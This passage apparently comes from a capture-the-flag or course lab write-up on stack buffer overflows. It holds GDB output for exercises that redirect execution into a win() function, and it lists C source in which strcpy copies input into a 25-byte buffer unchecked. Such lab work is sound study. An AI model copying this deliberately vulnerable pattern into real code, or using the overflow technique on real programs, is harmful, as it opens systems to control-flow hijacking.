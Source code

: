 ```bash
0x7fffffffebf0:	0x0000000000000000	0x00007fffffffecc8
0x7fffffffec00:	0x00000001f7ffcca0	0x0000555555554858
0x7fffffffec10:	0x0000000000000000	0x7047d5b41481e347
0x7fffffffec20:	0x00005555555546e0	0x00007fffffffecc0
0x7fffffffec30:	0x0000000000000000	0x0000000000000000
0x7fffffffec40:	0x251280e15201e347	0x2512905b2a11e347
0x7fffffffec50:	0x0000000000000000	0x0000000000000000
0x7fffffffec60:	0x0000000000000000	0x00007fffffffecd8

(gdb) continue
Enter product key: Congratulations!  The flag is 8-BYTES-LONG

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554857 in win () at ED202.7.c:14
14	}
A debugging session is active.

	Inferior 1 [process 32040] will be killed.

Quit anyway? (y or n) [answered Y; input not from terminal]
```

## 202.8 & 202.9: Exploiting a 32-Bit Server with ASLR

```bash
(gdb) list 6,16
6	int activate(char *str) {
7	    char key[25];
8	    strcpy(key, str);
9	    return 1;
10	}
11	
12	void win() {
13	    printf("\nCongratulations!  The first flag is XXXXXXXXXXXXXXX\n");
14	    fflush( stdout );
15	    printf("\nCongratulations!  The second flag is XXXXXXXXXXXXX\n");
16	    fflush( stdout );
```

```bash
(gdb) break 9
Breakpoint 1 at 0x805: file ED202.8b.c, line 9.
(gdb) run
win address: 0x5655580f

Breakpoint 1, activate (str=0xffffdc20 "ABCDEFGHIJ") at ED202.8b.c:9
9	    return 1;
(gdb) disassemble /s win,+1
Dump of assembler code from 0x5655580f to 0x56555810:
ED202.8b.c:
12	void win() {
   0x5655580f :	push   %ebp
End of assembler dump.
```
